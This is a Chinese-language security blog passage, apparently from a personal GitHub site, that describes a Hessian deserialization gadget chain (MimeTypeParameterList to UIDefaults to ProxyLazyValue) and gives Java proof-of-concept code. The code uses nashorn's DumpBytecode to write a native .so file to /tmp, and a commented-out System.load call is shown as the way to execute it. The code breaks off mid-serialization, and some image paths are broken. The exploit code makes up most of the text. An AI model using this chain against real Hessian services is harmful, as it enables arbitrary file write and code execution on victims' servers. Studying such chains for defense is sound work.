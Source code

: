 ![image-20231123181831689](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231123181831689.png)

然后看实现类，UIDefaults的内置类ProxyLazyvalue中的#createValue方法

`它这里指定了加载器，然后invoke所以肯定能加载到的`

![image-20231123182312152](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231123182312152.png)

这里获取到classLoader ，所以就能正常加载nashorn.jar了，但由于 Hessian 序列化的机制，ProxyLazyValue里面的 field acc 在反序列化过程中会报错 ， 所以需要将 acc 反射设置为null

我们可以写一个文件名为.class的so文件，然后使用System.load加载，因为System.load不管后缀是什么都可以执行

jdk.nashorn.internal.codegen.DumpBytecode#dumpBytecode

```java
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import jdk.nashorn.internal.runtime.ScriptEnvironment;
import jdk.nashorn.internal.runtime.logging.DebugLogger;
import sun.misc.Unsafe;

import javax.swing.*;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Hessian_MimeTypeParameterList_ProxyLazyValue_DumpBytecode {
    public static void main(String[] args) throws Exception {
        Unsafe unsafe = getUnsafe();
        Object script = unsafe.allocateInstance(ScriptEnvironment.class);
        setFieldValue(script,"_dest_dir","/tmp/");
        Object debug=unsafe.allocateInstance(DebugLogger.class);
        byte[] code= Files.readAllBytes(Paths.get("./calc.so"));
        String classname="calc";

        //写文件
        UIDefaults.ProxyLazyValue proxyLazyValue = new UIDefaults.ProxyLazyValue("jdk.nashorn.internal.codegen.DumpBytecode", "dumpBytecode", new Object[]{
                script,
                debug,
                code,
                classname
        });

        //System.load加载so文件
//        UIDefaults.ProxyLazyValue proxyLazyValue = new UIDefaults.ProxyLazyValue("java.lang.System", "load", new Object[]{
//                "/tmp/calc.class"
//        });

        setFieldValue(proxyLazyValue,"acc",null);
        UIDefaults uiDefaults = new UIDefaults();
        uiDefaults.put("key", proxyLazyValue);

        Class clazz = Class.forName("java.awt.datatransfer.MimeTypeParameterList");
        Object mimeTypeParameterList = unsafe.allocateInstance(clazz);
        setFieldValue(mimeTypeParameterList, "parameters", uiDefaults);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(baos);
        baos.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
```